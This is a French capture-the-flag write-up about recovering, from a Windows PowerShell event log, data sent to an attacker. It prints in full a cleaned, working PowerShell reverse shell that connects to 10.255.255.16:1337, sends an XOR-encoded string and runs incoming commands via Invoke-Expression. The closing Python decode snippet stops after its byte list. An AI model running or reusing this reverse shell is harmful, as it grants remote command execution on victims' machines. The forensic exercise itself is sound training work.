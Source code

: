 ## La gazette de Windows: 20 pts
### Enonce

<div class="rule">
Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.
</div>

### Solution

Dans ce challenge, on recupere un fichier de log Windows au format `MS Windows 10-11 Event Log` . Etant sous linux, j'ai utilise [evtx](https://github.com/omerbenamram/evtx) afin de dump en json les evenements windows avec la commande `evtx_dump Microsoft-Windows-PowerShell4Operational.evtx -o json > dump.json` .

En ouvrant le dump des logs, on trouve un evenement suspect: 

{{ resize_image(path="Pasted image 20230429135947.png", width=600, height=600, op="fit")}}

On retrouve un script powershell ! On nettoie le script et on obtient:
```powershell
do {
	Start-Sleep -Seconds 1
	try{
		$TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
	} catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
	[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
	$StreamWriter.Write($String + 'SHELL> ')
	$StreamWriter.Flush()
	}

$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
	$s += [char]([int]$l[$i] -bxor $i) #on xor chaque element de l avec sa position
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
	$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
	$Output = try {
		Invoke-Expression $Command 2>&1 | Out-String
	} catch {
		$_ | Out-String
		}
	WriteToStream ($Output)
}
$StreamWriter.Close()
```
En appliquant avec un script python l'operation realisee par le for, on obtient le flag:
```Python
l = [0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D]
```
